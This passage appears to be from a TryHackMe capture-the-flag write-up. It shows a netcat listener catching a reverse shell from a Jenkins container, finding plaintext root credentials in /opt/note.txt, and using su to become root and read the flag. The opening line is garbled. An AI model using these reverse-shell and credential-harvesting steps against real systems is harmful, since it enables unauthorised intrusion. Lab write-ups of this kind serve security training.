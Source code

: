 Book past it into our Jenkins /Script directory and let's get a shell.

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ sudo nc -lnvp 135                                                                       1 ⨯
listening on [any] 135 ...
connect to [10.9.11.106] from (UNKNOWN) [10.10.169.52] 46480
bash: cannot set terminal process group (6): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@jenkins:/$ uname -a
uname -a
Linux jenkins 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 GNU/Linux
jenkins@jenkins:/$ whoami
whoami
jenkins
jenkins@jenkins:/$
```

Okay, we are not root like we expected. I am now in a Docker instance hence the uname command and jenkins user. Let's do some basic enumeration... 

In the opt directory we find a file called note.txt and it seems to supply us with plaintext credentials to root
```bash
jenkins@jenkins:/$ cd /opt
cd /opt
jenkins@jenkins:/opt$ ls -l
ls -l
total 4
-rw-r--r-- 1 root root 204 Aug  3  2020 note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
jenkins@jenkins:/opt$
```

Okay! Sweet we have root (at least we think, let's try it out)
```bash
aubreanna@internal:~$ whoami
aubreanna
aubreanna@internal:~$ uname -a
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# whoami
root
root@internal:/home/aubreanna# cat /root/root.txt | head -c 5
THM{d
root@internal:/home/aubreanna# 
```

Nice! We own the system and have root privs. Done!



